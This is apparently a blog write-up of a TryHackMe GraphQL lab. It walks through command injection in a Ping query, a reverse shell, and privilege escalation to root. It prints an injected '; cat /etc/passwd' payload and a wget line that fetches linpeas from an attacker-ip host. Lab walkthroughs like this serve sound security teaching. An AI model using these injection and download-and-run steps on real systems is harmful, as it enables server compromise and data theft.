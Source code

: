 ```yaml
---
title: Using GraphQL Maliciously
published: true
---
```

Hey Hackers, Today's article will be about GraphQL Lab by tryhackme. Before we get started with the writeup, let's just get to know what is GraphQL and how we can exploit it :D
<p align="center">
  <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/Graphql_logo.png"/>
</p>

**What is GraphQL?**   
GraphQL is a query language that allows to access data from the database via single API endpoint. As compared to REST API, where there are seperate endpoint for each calling the user makes. With GraphQL, we only need one endpoint to access all data.   
There are two operations in GraphQL API, they are: -   
1. Query   
2. Mutation   

Query is used to read data while mutation is used to modify data. You can learn more about GraphQL at this link ```https://graphql.org```   

Well now you know what GraphQL, lets' get started.   

Start up the machine      
<p align="center">
  <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/1_start_machine.png"/>   
</p>  

After starting the machine, we need to perform some enumeratation   
<p align="center">
  <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/2_nmap.png"/>
</p>  
   
By using, nmap we got to know port 80 is open. Let's check what is on port 80.   
<p align="center">
  <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/3_open_port_80.png"/>
</p>  

On port 80, we found that Graphiql interface is enabled, thus allowing us to run graphql query. We wrote the graphql query in the interface in order to know what queries are available   
<p align="center">
  <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/4_schema_fields.png"/>
</p>

From the screenshot above, the only query that was interesting was Ping Query
The reason Ping query is interesting is because it can be used to create remote code execution and takeover the server :D   
Let's check what fields are available for the query   
<p align="center">
 <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/5_examining_ping_fields.png" />
</p>   
There are two availble fields that are being used those are ```ip``` & ```output```   
Let's give it a test of how it works. The query that i injected is: -   
```{   
   Ping(ip:"127.0.0.1"){   
     ip   
     output   
  }   
}```      
We get the output that it makes the call to the localhost.   
<p align="center">
 <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/6_Testing_ping_field.png" />
</p>   
let's try to break the query by inserting a semicolon and check if we can read the passwd file since the backend is a linux server running.The payload being used in the query is : -    
```{   
   Ping(ip:"; cat /etc/passwd"){   
     ip   
     output   
  }   
}```    
<p>
 <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/7_etc_passwd.png">
</p>   
We are able to read the passwd file. That is a good sign, let's start making our reverse shell and get an rce :p   
Let's open our ncat connection and start working on our payload.   
<p>
 <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/8_ncat_listener.png">
</p>   
<p>
 <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/9_reverse_shell.png">
</p>      

Reverse shell got executed and we got a remote code execution. Thus, compromising the server    
<p>
 <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/10_server_hacked.png">
</p>   
Now we got a reverse shell, we need to now escalate our privileges to become root. Lets send our linpeas script to the compromised server to check what abnomalies can be exploited to become root. We run our server where our linpeas is located.    
```python3 -m http.server```    
<p>
 <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/11_opening_server_for_linpeas.png">
</p>    
Now on the victim server we will download linpeas script being hosted on my server. The following is the command for downloading the script using wget: -    
```wget http://<attacker-ip>:8000/linpeas.sh```    
<p>
 <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/12_installing_linpeas.png">    
</p>    
once linpeas script is downloaded in the victim machine, we will make the file executable and run the script. The following are the commands.    
```chmod + x linpeas.sh```    
```./linpeas.sh```    
<p>
 <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/13_running_linpeas.png">
</p>    
Analyzing the results from linpeas script, we found a potential loophole that can help us gain root access. The one we found is that we can run node as sudo.    
<p>
<img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/14_found_potential_loophole.png">
</p>    
By going over PayloadsAllTheThings, i copied the payload from there and modified it with our ip address and the port we chose.
Then i hosted on my server and then remotely downloading the payload on the remote hacked server.    
<p>    
 <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/16_reverse_shell_server_js.png">
</p>    
After that we ran our script while at the same time on our other terminal netcat is running in order to get a reverse shell and gain access to the server as root.    
<p>
 <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/17_downloading_server_js.png">
</p>    
<p>
 <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/GRAPHQL/19_root_access.png">
</p>
